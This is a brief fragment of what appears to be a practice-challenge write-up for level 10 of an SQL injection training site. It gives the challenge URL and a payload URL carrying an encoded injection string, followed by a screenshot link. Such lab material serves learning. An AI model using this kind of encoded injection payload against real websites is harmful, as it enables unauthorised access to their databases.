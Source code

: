 Chall Url:http://www.zixem.altervista.org/SQLi/lvl10.php
Payload: http://www.zixem.altervista.org/SQLi/lvl10.php?x=TSwiITUzREUvM0IhMzE0USUwVTBALDJRIzNUWSMwNTBILCdAVSxTOFEtQyxWLiM4WS1GNFYsUzlGLUY4Vgo3OFJQQlBKIyJILCpAKEJRVjk3KVM6Nl1OKiJESSsyVGAKYA%3D%3D

![](https://user-images.githubusercontent.com/25671488/61189820-2cf1a680-a6b0-11e9-995a-99f3bf2fb9e4.png)
